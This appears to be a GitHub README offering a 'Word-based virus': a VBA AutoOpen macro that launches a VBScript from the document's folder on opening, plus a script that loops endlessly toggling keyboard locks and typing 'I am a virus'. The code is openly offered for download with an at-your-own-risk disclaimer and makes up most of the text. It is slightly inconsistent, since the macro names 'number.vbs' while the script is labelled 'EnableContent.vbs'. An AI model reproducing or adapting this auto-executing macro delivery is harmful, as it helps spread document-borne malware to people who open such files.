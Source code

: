 # Word-based-virus

Sending executables usually isn't the best option. 
But we can use VBA script Macro in a Word document in order to send a virus. 
You use these files at your own risk.

Detailed steps of how I made it and explanation of codes can be seen at:
https://www.youtube.com/watch?v=UCyQlx5fzGI

You can download and find two files each has code:

In word macro:
-------------------------------

Sub AutoOpen()

Dim wb As String
Dim myPath As String
Dim myWb As String

wb = "number.vbs"
myPath = ActiveDocument.path
myWb = """" & myPath & "\" & wb & """"

' MsgBox myWb, 48

CreateObject("Wscript.Shell").Run myWb, 1, True


End Sub

-------------------------------

In EnableContent.vbs:
-------------------------------

set x=wscript.createobject ("wscript.shell") 
do 
wscript.sleep 100 x.sendkeys "{CAPSLOCK}" 
x.sendkeys "{NUMLOCK}" 
x.sendkeys "I am a virus " 
x.sendkeys "{SCROLLLOCK}" 
loop

-------------------------------
